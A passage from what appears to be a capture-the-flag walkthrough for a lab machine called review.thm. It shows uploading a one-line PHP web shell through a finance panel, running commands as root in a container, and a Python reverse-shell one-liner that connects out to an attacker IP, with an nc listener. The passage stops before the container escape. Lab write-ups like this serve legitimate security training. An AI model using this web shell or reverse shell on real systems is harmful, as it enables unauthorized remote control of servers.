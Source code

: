 This loads the internal finance panel which exposes a file upload form.

---

## 5. Phase 4 – File Upload & Shell

### 5.1 Create & Upload Web Shell

Locally craft a minimal PHP web shell:

```bash
cat > shell.php << 'EOF'
<?php system($_GET["cmd"]); ?>
EOF
```

Upload `shell.php` via the finance panel's file upload.

### 5.2 Test Command Execution

Visit the uploaded shell in your browser:

```
http://review.thm/uploads/shell.php?cmd=id
```

Expected output (in this case inside the container):

```
uid=0(root) gid=0(root) groups=0(root)
```

This confirms command execution as **root** inside the Docker container.

---

## 6. Phase 5 – Container Escape & Root Flag

### 6.1 Launch Reverse Shell

Place the following on your web server (e.g., `~/www/index.html`) or run it from the shell to pull a reverse shell from the target:

```bash
python3 -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("YOUR_IP",443));
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
import pty;pty.spawn("sh")'
```

Start a listener on your machine:

```bash
nc -lvnp 443
```
